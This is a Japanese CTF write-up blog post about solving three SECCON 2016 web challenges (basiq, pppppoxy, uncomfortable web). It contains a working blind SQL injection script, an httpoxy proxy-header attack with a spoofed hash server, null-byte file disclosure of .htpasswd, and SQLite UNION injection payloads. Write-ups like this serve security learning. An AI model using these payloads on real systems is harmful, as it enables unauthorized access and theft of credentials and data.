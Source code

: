 ```yaml
---
layout: post
title: SECCON 2016 オンライン予選に参加しました
categories: [ctf]
date: 2016-12-11 16:53:00 +0900
---
```


hiww さん ([@hiww](https://twitter.com/hiww)) のお誘いでチーム [Harekaze](http://harekaze.com/) として SECCON 2016 Online CTF に参加しました。
最終的にチームで 1300 点を獲得し、チーム順位は 61 位 (得点 930 チーム中) でした。

私は Web カテゴリの問題を中心に取り組んで、

- basiq (Web 100)
- pppppoxy (Web 200)
- uncomfortable web (Web 300)

の 3 問を解きました。

## basiq (Web 100)
以前見たことがあるような競馬のサービスから admin のパスワードを手に入れる問題でした。

どこから攻めればいいのか分からずだいぶ悩んでいましたが、[@tatarhy](https://twitter.com/tatarhy) さんのコメントで http://basiq.pwn.seccon.jp/admin/ にアクセスすると認証ダイアログが表示されると分かりました。

これは怪しいと思い、試しにユーザ名に `admin`、パスワードに `' or 1;#` と入力するとログインに成功しました。
また、ユーザ名に `admin`、パスワードに `' and 0;#` と入力するとログインに失敗しました。

このことから Blind SQLi ができるのではないかと考え、まず以下のコードで確かに情報を抜けることを確認しました。

```python
import requests
import sys

def check(c):
  return c == 200

url = 'http://basiq.pwn.seccon.jp/admin/'
query = "' and 0 or substr(version(), {}, 1) <= binary 0x{:x};#" # => 

i = 1
res = ''

while True:
  high = 0x7e
  low = -1

  while abs(high - low) > 1:
    mid = (high + low) // 2

    c = requests.get(url, auth=('admin', query.format(i, mid)))

    if check(c.status_code):
      high = mid
    else:
      low = mid

  res += chr(high)
  print(i, res)
  i += 1
```

結果は `5.5.50-MariaDB` でした。

続いてどのようなデータベースがあるか確認するため、`query` を `' and 0 or substr((select group_concat(distinct hex(table_schema)) from information_schema.tables where table_schema != 'information_schema'), {}, 1) <= binary 0x{:x};#` に変え実行しました。`keiba` というデータベースがあると分かりました。

さらに `information_schema.columns` からテーブル名とカラム名を抜き出すと、`id` `name` `pass` というカラムを持つ `???` (`\u2639\u263a\u263b`) というテーブルがあると分かりました。

あとは `keiba.???` からパスワードを抜き出すだけです。

```
SECCON{Carnival}
```

## pppppoxy (Web 200)
配布された `pppppoxy.exe` という実行ファイルを実行すると、ブラウザで `127.0.0.1:81` が開かれました。`127.0.0.1:81` では Web アプリが動いており、これの認証を突破する問題でした。この問題は Harekaze が first solve でした。

この問題名から思い出されるのは、[httpoxy](https://httpoxy.org/) という脆弱性です。

試しに `python -m SimpleHTTPServer 8000` で待ち受けながら `curl -X POST http://127.0.0.1:81 --data "user=admin&pass=hoge" -H "Proxy: http://127.0.0.1:8000"` を実行してみました。すると、`GET http://127.0.0.1:81/Authenticator?user=admin HTTP/1.0` という HTTP リクエストが飛んできました。ビンゴです。

`http://127.0.0.1:81/Authenticator?user=admin` にアクセスすると `{"hash":"C432A8174394A3F655B2BD29BB075E4C"}` という JSON が返ってきました。このハッシュは文字数からしておそらく MD5 でしょう。

これを利用して、以下のようなコードを書きました。

```python
from flask import Flask
app = Flask(__name__)

@app.errorhandler(404)
def not_found(e):
    return '{"hash":"21232F297A57A5A743894A0E4A801FC3"}', 404

if __name__ == "__main__":
    app.run(port=8000)
```

これを動かしながら `curl -X POST http://127.0.0.1:81 --data "user=admin&pass=admin" -H "Proxy: http://127.0.0.1:8000"` を実行するとフラグが出ました。

```
SECCON{D5691FB40B2AF60CA78DA78AC65A71E2}
```

## uncomfortable web (Web 300)
シェルスクリプトやらなんやらを実行できる Web アプリと、その Web アプリからのみアクセスできる Web アプリがあり、前者から後者を攻略する問題でした。

この問題もどこから攻めればいいのかが分からず悩んでいましたが、`curl "http://127.0.0.1:81/select.cgi?txt=a.txt%00"` のように null バイトを入れるとよいと気付いて進捗しました。

`/authed/` 下を見る認証に必要な情報を得るために `http://127.0.0.1:81/select.cgi?txt=.htaccess%00` で `.htaccess` を抜き出しました。

```
AuthUserFile /var/www/html-inner/authed/.htpasswd
AuthGroupFile /dev/null
AuthName "SECCON 2016"
AuthType Basic
Require user keigo
```

認証に使用するユーザ名とパスワードの一覧は `.htpasswd` に格納されているようです。同じように抜き出しました。

```
keigo:LdnoMJCeVy.SE
```

gen さん ([@neglect_yp](https://twitter.com/neglect_yp)) がパスワードは `test` であるとコメントされていたので、得られた情報から `/authed/` 下を見ると以下のような構成になっていました。

```
[TXT]	a.txt	30-Nov-2016 09:59	888	 
[TXT]	b.txt	28-Nov-2016 12:00	78	 
[TXT]	c.txt	30-Nov-2016 10:04	48	 
[DIR]	sqlinj/	28-Nov-2016 11:41	-	 
```

`/authed/sqlinj/` 下は `{1..100}.cgi` という感じで 100 個のファイルがあり、そのいずれかで SQLi が行えるようでした。

HTML のコメントに `<!-- by KeigoYAMAZAKI, 2016.11.25- -->` とあったため、`SQLite` を使用していると考え、以下のコードでどのファイルで SQL インジェクションが行えるか確かめました。

```python
#!/usr/bin/python
import requests
for x in range(1, 101):
  print '[' + str(x) + ']'
  print requests.get('http://127.0.0.1:81/authed/sqlinj/{0}.cgi?no=\'||\'4822267938'.format(x), auth=('keigo', 'test')).content
```

`72.cgi` で SQL インジェクションが行えると分かりました。あとはやるだけです。

`http://127.0.0.1:81/authed/sqlinj/72.cgi?no=4822267939' union select 1, 2, (select group_concat(sql) from sqlite_master) where 1 or '` で `f1ag` というカラムを持つ `f1ags` というテーブルがあると分かります。

`select group_concat(sql) from sqlite_master` を `select group_concat(f1ag) from f1ags` に変えるとフラグが出ました。

```
SECCON{I want to eventually make a CGC web edition... someday...}
```